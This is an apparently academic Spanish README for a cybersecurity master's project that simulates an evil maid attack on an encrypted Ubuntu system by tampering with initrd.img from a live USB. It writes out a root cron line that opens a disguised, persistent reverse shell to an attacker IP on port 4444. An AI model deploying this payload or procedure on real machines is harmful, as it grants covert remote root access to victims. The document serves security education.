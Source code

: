 - `edit.py`: Script que modifica archivos shell existentes (como `cryptroot`) insertando líneas de payload desde `payload.txt` [2].

- `payload.txt`: Contiene el código del ataque. Monta el volumen lógico de la víctima (`/dev/mapper/ubuntu--vg-root`), luego escribe un cron job malicioso en `/tmp/etc/crontab` que lanza una ****reverse shell persistente**** hacia la IP del atacante en el puerto `4444`. Esta shell se camufla con el nombre `EMShell`[3][4].

Ejemplo del payload inyectado:

```bash
* * * * * root /bin/bash -c 'exec -a EMShell bash -i >& /dev/tcp/192.168.68.108/4444 0>&1'
```

Esto significa que cada minuto se intenta establecer una conexión remota, otorgando acceso al atacante sin necesidad de credenciales.

### Variantes del Ataque Evil Maid

El ataque simulado pertenece a la categoría de ****Kernel-Level Persistence****. Otras variantes conocidas incluyen:

- ****Bootloader Tampering****  
  Modificación de GRUB u otros bootloaders para inyectar código malicioso antes de arrancar el sistema operativo.

- ****BIOS/UEFI-level Implants****  
  Ataques avanzados que residen en firmware, difíciles de detectar incluso para soluciones modernas.

- ****Pre-boot Keyloggers****  
  Capturan contraseñas antes del arranque completo del sistema, incluso en discos cifrados.

### Particularidades de Esta Implementación

- Ejecutado mediante un Live USB (Linux Lite), sin necesidad de autenticación del sistema objetivo.
- Compatible con discos cifrados (simulados en VirtualBox).
- Se utiliza cron para persistencia [3] y bash para el canal reverso [4].
- Automatizado en su totalidad mediante scripting (Bash + Python).
- Pensado para facilitar la comprensión del proceso de arranque en Linux y sus vulnerabilidades.

****⚠️ Importante:**** Todo el código fue desarrollado con fines exclusivamente académicos en el contexto de la Maestría en Ciberseguridad, siguiendo principios éticos y sin intención de ejecutar ataques reales o afectar sistemas de terceros.

## Documentación del ataque

Este ataque fue ejecutado por el grupo de estudiantes en un entorno virtual controlado, simulando un escenario en el que el atacante obtiene acceso físico a la máquina objetivo. A continuación, se resume el procedimiento seguido.

Supongamos que planeamos un ataque a un equipo con sistema operativo Ubuntu y cifrado de disco. Se parte de la premisa de que el atacante ya ha identificado previamente el sistema objetivo y conoce que utiliza Ubuntu con cifrado LVM. En una situación realista, la víctima deja su computadora desatendida, ya sea encendida o apagada. El atacante aprovecha esta oportunidad para ingresar sin ser detectado, accede a la BIOS y verifica que es posible iniciar el sistema desde un dispositivo USB externo. Una vez confirmado esto, procede a arrancar la máquina utilizando una distribución Live de Linux Lite. Desde esta sesión, el atacante monta la partición `/boot` del sistema objetivo, lo cual le permite acceder y extraer el archivo `initrd.img`. Este archivo contiene los scripts necesarios para el proceso de arranque del sistema, incluyendo aquellos que manejan la desencriptación del disco, convirtiéndose en el punto clave para insertar el payload malicioso. Se identifican claramente dos volúmenes: el volumen encriptado que contiene el sistema de archivos principal, y otro que incluye el archivo `initrd.img`, lo cual fue validado antes de proceder con su extracción y manipulación.
